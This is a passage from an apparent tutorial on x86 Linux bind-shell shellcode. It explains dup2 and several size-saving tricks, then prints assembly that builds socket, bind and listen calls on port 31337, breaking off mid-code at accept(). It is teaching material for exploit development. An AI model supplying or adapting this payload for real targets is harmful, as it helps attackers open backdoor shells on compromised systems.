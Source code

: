 ```
       dup() and dup2() create a copy of the file descriptor oldfd.

       dup2() makes newfd be the copy of oldfd, closing newfd first if necessary.
```
Calling dup2 is pretty simple as the only arguments that are require dis its syscall #63, the old fd and the new fd. The additions to the shellcode above will look like this. 
<details></details>

Since these pieces of shell code are becoming quite large we employ even more of the tricks in our bad to shorten some instructions. 
- Firstoff, we're goinf to shorten the dup instruction by creating a for loop that will execute three times with the value of STD incrementing between 0, 1,and 2. TO save even more, we cheat in the loop a bit and avoid using the ```cmp``` operator by simmply telling the program to loop again unless you encounter a signed value ```jns``` in our case, we'll only encounter that if our incrementer drops below 0. 
- After that in our code we take advantage of the ```xchg``` instruction that can exchange the value of two registers, which comes in handy for sitations in which we need to move a value into ```ebx``` while clearing out ```eax``` after these changes, our final binding shellcode will look like this: 

```
BITS 32

; s = socket(2, 1, 0)
  push BYTE 0x66    ; socketcall is syscall #102 (0x66).
  pop eax
  cdq               ; Zero out edx for use as a null DWORD later.
  xor ebx, ebx      ; Ebx is the type of socketcall.
  inc ebx           ; 1 = SYS_SOCKET = socket()
  push edx          ; Build arg array: { protocol = 0,
  push BYTE 0x1     ;   (in reverse)     SOCK_STREAM = 1,
  push BYTE 0x2     ;                    AF_INET = 2 }
  mov ecx, esp      ; ecx = ptr to argument array
  int 0x80          ; After syscall, eax has socket file descriptor.

  xchg esi, eax     ; Save socket FD in esi for later.

; bind(s, [2, 31337, 0], 16)
  push BYTE 0x66    ; socketcall (syscall #102)
  pop eax
  inc ebx           ; ebx = 2 = SYS_BIND = bind()
  push edx          ; Build sockaddr struct:  INADDR_ANY = 0
  push WORD 0x697a  ;   (in reverse order)    PORT = 31337
  push WORD bx      ;                         AF_INET = 2
  mov ecx, esp      ; ecx = server struct pointer
  push BYTE 16      ; argv: { sizeof(server struct) = 16,
  push ecx          ;         server struct pointer,
  push esi          ;         socket file descriptor }
  mov ecx, esp      ; ecx = argument array
  int 0x80          ; eax = 0 on success

; listen(s, 0)
  mov BYTE al, 0x66 ; socketcall (syscall #102)
  inc ebx
  inc ebx           ; ebx = 4 = SYS_LISTEN = listen()
  push ebx          ; argv: { backlog = 4,
  push esi          ;         socket fd }
  mov ecx, esp      ; ecx = argument array
  int 0x80

; c = accept(s, 0, 0)
  mov BYTE al, 0x66 ; socketcall (syscall #102)
  inc ebx           ; ebx = 5 = SYS_ACCEPT = accept()
  push edx          ; argv: { socklen = 0,
```